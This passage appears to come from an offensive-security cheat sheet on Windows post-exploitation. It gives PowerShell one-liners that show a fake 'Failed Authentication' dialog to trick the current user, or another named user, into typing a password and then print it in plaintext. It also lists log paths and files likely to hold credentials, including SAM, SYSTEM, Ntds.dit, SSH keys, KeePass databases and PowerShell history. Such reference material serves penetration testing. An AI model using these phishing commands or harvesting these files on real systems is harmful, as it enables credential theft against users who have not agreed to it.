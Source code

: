 ### Logs

```bash
# IIS
C:\inetpub\logs\LogFiles\*

#Apache
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

### Ask for credentials

You can always **ask the user to enter his credentials of even the credentials of a different user** if you think he can know them (notice that **asking** the client directly for the **credentials** is really **risky**):

```bash
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'anotherusername',[Environment]::UserDomainName); $cred.getnetworkcredential().password

#Get plaintext
$cred.GetNetworkCredential() | fl
```

### **Possible filenames containing credentials**

Known files that some time ago contained **passwords** in **clear-text** or **Base64**

```bash
$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history
vnc.ini, ultravnc.ini, *vnc*
web.config
php.ini httpd.conf httpd-xampp.conf my.ini my.cnf (XAMPP, Apache, PHP)
SiteList.xml #McAfee
ConsoleHost_history.txt #PS-History
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
*.csr
*.cer
known_hosts
id_rsa
id_dsa
*.ovpn
anaconda-ks.cfg
hostapd.conf
rsyncd.conf
cesi.conf
supervisord.conf
tomcat-users.xml
*.kdbx
KeePass.config
Ntds.dit
SAM
SYSTEM
FreeSSHDservice.ini
access.log
error.log
server.xml
ConsoleHost_history.txt
```